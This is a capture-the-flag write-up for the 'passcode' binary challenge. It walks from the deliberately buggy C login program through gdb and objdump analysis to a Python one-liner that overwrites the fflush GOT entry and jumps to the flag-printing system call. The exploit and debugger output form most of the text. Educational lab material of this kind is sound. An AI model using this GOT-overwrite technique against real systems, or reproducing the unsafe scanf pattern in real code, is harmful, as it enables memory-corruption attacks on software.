 # passcode

## Code
In this challenge, we are given:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

## Gather Information
If you try to recompile the program, you will get the following warnings:
```
passcode.c: In function ‘login’:
passcode.c:9:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat]
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat]
```

If you try to type the integers `338150` and `13371337`, you will receive a segmentation fault.

This is because of these lines:
```
        scanf("%d", passcode1);
        ...
        ...
        scanf("%d", passcode2);
```
The correct way to use `scanf` is `scanf("%d", &passcode)` with the '**&**' by referring it to a pointer. However, this program is written to read the input arguments as an actual memory location, i.e. you can ask `scanf` to manipulate a location of your choice!

Let's examine the program using `gdb` with `peda`:

```
pattern create 100
enter your name: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
enter passcode1: 0
```

We encounter a segmentation fault:
```assembly
[----------------------------------registers-----------------------------------]
EAX: 0x4c414136 ('6AAL')
EBX: 0xb7fc6ff4 --> 0x1a6d7c 
ECX: 0x0 
EDX: 0x1 
ESI: 0xb7fc7ac0 --> 0xfbad2288 
EDI: 0x0 
EBP: 0xbffff298 --> 0xb7e1f900 (0xb7e1f900)
ESP: 0xbfffef50 --> 0xbfffef60 --> 0xb7fc0031 --> 0x5c000000 ('')
EIP: 0xb7e6fda3 (<_IO_vfscanf+11667>:	mov    DWORD PTR [eax],edx)
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb7e6fd94 <_IO_vfscanf+11652>:	mov    eax,DWORD PTR [ebp-0x1d8]
   0xb7e6fd9a <_IO_vfscanf+11658>:	add    DWORD PTR [ebp-0x1d8],0x4
   0xb7e6fda1 <_IO_vfscanf+11665>:	mov    eax,DWORD PTR [eax]
=> 0xb7e6fda3 <_IO_vfscanf+11667>:	mov    DWORD PTR [eax],edx
   0xb7e6fda5 <_IO_vfscanf+11669>:	jmp    0xb7e6ea4e <_IO_vfscanf+6718>
   0xb7e6fdaa <_IO_vfscanf+11674>:	cmp    DWORD PTR [ebp-0x18c],0x2d
   0xb7e6fdb1 <_IO_vfscanf+11681>:	jne    0xb7e6e3cd <_IO_vfscanf+5053>
   0xb7e6fdb7 <_IO_vfscanf+11687>:	jmp    0xb7e6f7ec <_IO_vfscanf+10204>
[------------------------------------stack-------------------------------------]
0000| 0xbfffef50 --> 0xbfffef60 --> 0xb7fc0031 --> 0x5c000000 ('')
0004| 0xbfffef54 --> 0xbffff27c --> 0xbfffef61 --> 0xb7fc00 
0008| 0xbfffef58 --> 0xa ('\n')
0012| 0xbfffef5c --> 0x0 
0016| 0xbfffef60 --> 0xb7fc0031 --> 0x5c000000 ('')
0020| 0xbfffef64 --> 0xb7fda000 ("enter passcode1 : AA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL!\n")
0024| 0xbfffef68 --> 0xb7e1f900 (0xb7e1f900)
0028| 0xbfffef6c --> 0xb7e90ab4 (mov    ebp,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xb7e6fda3 in _IO_vfscanf () from /lib/i386-linux-gnu/libc.so.6
```
Notice here that the last 4 characters, `6AAL` is `eax` and `1` is `edx`. This implies we can control the input register values.

Execute `objdump -d passcode`:
```assembly
08048430 <fflush@plt>:
 8048430:	ff 25 04 a0 04 08    	jmp    *0x804a004
 8048436:	68 08 00 00 00       	push   $0x8
 804843b:	e9 d0 ff ff ff       	jmp    8048410 <_init+0x30>
 ...
 ...
 
08048564 <login>:
...
 80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
 80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```

The idea here is this, we know the value of `eax` can be control, so we can overwrite `passcode1` to be filled with `fflush` GOT address of `0x804a004`. Now, instead of jumping to `0x804a004`, we are going to invoke `0x80485e3` which is `134514147` in decimal (the system call that executes the bash shell to print the flag).

Hence the solution is:
```
python -c "print 'A'*96 + '\x04\xa0\x04\x08' + '134514147'" | ./passcode
```


